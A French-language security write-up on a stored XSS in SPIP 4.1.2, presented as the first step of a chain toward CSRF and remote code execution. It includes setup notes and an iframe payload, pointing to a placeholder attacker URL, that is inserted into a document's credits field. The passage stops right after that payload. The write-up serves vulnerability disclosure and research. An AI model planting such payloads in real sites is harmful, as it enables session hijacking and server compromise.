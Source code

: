 # "XSS Stockée" menant à "CSRF -> RCE"  sur spip 4.1.2

### Auteur : Abyss Watcher

# Environnement

Nous avons déployé spip localement sur notre machine, en téléchargeant la version 4.1.2 depuis ce lien : https://files.spip.net/spip/archives/spip-v4.1.2.zip. Ensuite nous avons instancié plusieurs environnements docker (PHP, mysql). La configuration de spip est celle par défaut, nous avons suivi la procédure sans rien toucher ensuite.

Les failles citées par la suite nécessitent au minimum d'avoir le droit de mettre ou éditer des documents dans les ressources du site.

# XSS stockée sur le portail privé

Pour réaliser l'attaque, il faut en premier lieu mettre en ligne un fichier (via n'importe quelle "box" d'upload) :

![picture 9](../images/121624c1eaa93f418e2537f1245feb473e983e5de35585afb24afe1e8a259427.png)  

Une fois cela fait, nous cliquons sur "Modifier", puis insérons le payload suivant dans les crédits `<iframe src="https://[attacker_controlled_url]/xss.html">` :
